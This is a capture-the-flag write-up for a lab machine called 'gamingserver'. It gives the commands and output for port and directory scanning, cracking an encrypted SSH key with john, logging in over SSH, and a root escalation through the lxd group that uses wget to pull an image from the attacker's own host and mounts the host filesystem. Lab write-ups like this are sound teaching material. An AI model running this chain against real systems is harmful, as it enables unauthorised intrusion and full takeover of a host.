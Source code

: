 # recon
- nmap
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
```
- gobuster
```
/about.php (Status: 200)
/about.html (Status: 200)
/index.html (Status: 200)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

- port 80 httpserver
  - index.html: `<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->`
  - where is `/arhives.html`
  - /uploads/dict.lst: a password list
  - /secret: contain RSA key encrypted with AES


# foot hold
so as you can see, we got a password list + ssh key (RSA) encrypted with AES. I guess one of the password in the list (`/uploads/dict.lst`) can be use to decrypt the ssh key. We can then use ssh key to gain foot hold one victim server.

let start with convert encrypted ssh key to a format that john can understand. then use john to crack the password. we will use as our password list.
```console
kali@kali:~/THM/gamingserver$ sudopython /usr/share/john/ssh2john.py secretKey s > ssh2john.txt
kali@kali:~/THM/gamingserver$ sudo john --wordlist=dict.lst ssh2john.txt
.
.
Press 'q' or Ctrl-C to abort, almost any other key for status
<something>          (secretKey)
1g 0:00:00:00 DONE (2020-09-02 14:47) 100.0g/s 22200p/s 22200c/s 22200C/s 2003..starwars
```
now lets use to `openssl` to decrypt `secretKey`
```console
kali@kali:~/THM/gamingserver$ openssl rsa -in secretKey -out gamingserver_key
Enter pass phrase for secretKey:
writing RSA key
```
what are we waiting for let ssh to the victim server. Grab the user flag
```console
kali@kali:~/THM/gamingserver$ ssh john@$IP -i gamingserver_key
Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ ls
user.txt
```
# root
```console
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
lxd !! I have seen it so many time. if you dont know what LXD is pls do some research by yourself, Also check this for step by step lxd exploit [link](https://www.hackingarticles.in/lxd-privilege-escalation/)


so what are we waiting for. let get root!!

```console
john@exploitable:~$ wget http://<kali IP>:8080/myalpine.tar.gz
2020-09-02 19:04:23 (1.01 MB/s) - ‘myalpine.tar.gz’ saved [3199169/3199169]
john@exploitable:~$ ls
myalpine.tar.gz  user.txt
john@exploitable:~$ lxc image import myalpine.tar.gz --alias kurohat
Image imported with fingerprint: 19d278b8c78857a750fb2589c3addb3fa4a4b11fbb2c2b28275400e3a60fbb79
john@exploitable:~$ lxc init kurohat ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:~$ lxc start ignite 
john@exploitable:/mnt$ lxc exec ignite /bin/sh # bash will also work but this server do not have /bin/bash
~ # id
uid=0(root) gid=0(root)
```
now let move to the mount poin `/mnt/root/` and grab the root flag